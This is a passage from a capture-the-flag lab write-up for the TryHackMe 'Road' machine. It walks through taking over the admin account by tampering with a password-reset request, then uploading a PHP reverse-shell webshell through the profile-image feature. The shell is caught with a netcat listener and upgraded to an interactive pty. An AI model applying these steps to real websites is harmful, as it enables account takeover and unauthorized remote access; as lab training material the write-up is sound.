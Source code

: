 In writeups, I don’t write steps which didn’t worked but you should always enumerate as deep as you can . Here, I only present steps which I worked for me and which was useful for chaining vulnerabilities. Always enumerate deeply.

</aside>

<img width="1914" height="797" alt="image" src="https://github.com/user-attachments/assets/cf914c21-146e-4955-879e-d940574eb4a2" />

As we click on merchant central, it redirect us to [`/v2/admin/login.html`](http://10.10.221.173/v2/admin/login.html) . Here we can try combination of weak passwords, but it didn’t worked. Let’s register ourself as test user(test@test.com:pass) , so that we can see what we can access or modify from inside.

<img width="1913" height="714" alt="image 1" src="https://github.com/user-attachments/assets/ba847cd1-0a3f-4274-acca-1b2a4280780d" />

After signing in , we can see our dashboard and a lot of inactive links except some resetUser option. Let’s check our profile page.

<img width="1919" height="789" alt="image 2" src="https://github.com/user-attachments/assets/3fabf3a2-f33e-4773-a60e-b5c30491a003" />

<img width="1914" height="788" alt="image 3" src="https://github.com/user-attachments/assets/c4001aaf-4545-4361-ac1b-c09886a9b2ac" />

At profile page, there is a profile image upload functionality, but only admin has access for that currently. And also we got the admin’s email = admin@sky.thm

---

### Initial Access

Coming back to resetUser page:

<img width="1919" height="721" alt="image 4" src="https://github.com/user-attachments/assets/b4d24ca0-dd66-4807-954b-5cd01b622c3d" />

I intercepted password reset request and there I was able to change email and change the admin’s password via the help of that admin email we got earlier. Now, we can log in to admin’s account.

<img width="1917" height="792" alt="image 5" src="https://github.com/user-attachments/assets/0ba82f24-14ae-4ef9-80d5-00cb9e9e82c3" />

And now can also use that image upload functionality via admin’s account by uploading webshell(php-reverse-shell) here.

And we can check it’s source code there is a endpoint `/v2/profileimages` from where we can trigger our uploaded image(shell).

<img width="1918" height="792" alt="image 6" src="https://github.com/user-attachments/assets/276737cb-279a-46ec-ab04-0bafb0b2d815" />

 Now, just trigger that shell from that endpoint and keep your netcat on listening mode.

url = [`http://10.10.8.71/v2/profileimages/php-reverse-shell.php`](http://10.10.8.71/v2/profileimages/php-reverse-shell.php)

```bash
┌──(ghost㉿kali)-[~/tryhackme/road]
└─$ rlwrap -f . -r nc -nvlp 4445
listening on [any] 4445 ...
connect to [10.17.87.131] from (UNKNOWN) [10.10.8.71] 50832
.....
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@sky:/$ cd /home
cd /home
www-data@sky:/home$ ls -la
ls -la
total 12
drwxr-xr-x  3 root         root         4096 May 25  2021 .
drwxr-xr-x 20 root         root         4096 May 25  2021 ..
drwxr-xr-x  4 webdeveloper webdeveloper 4096 Oct  8  2021 webdeveloper
```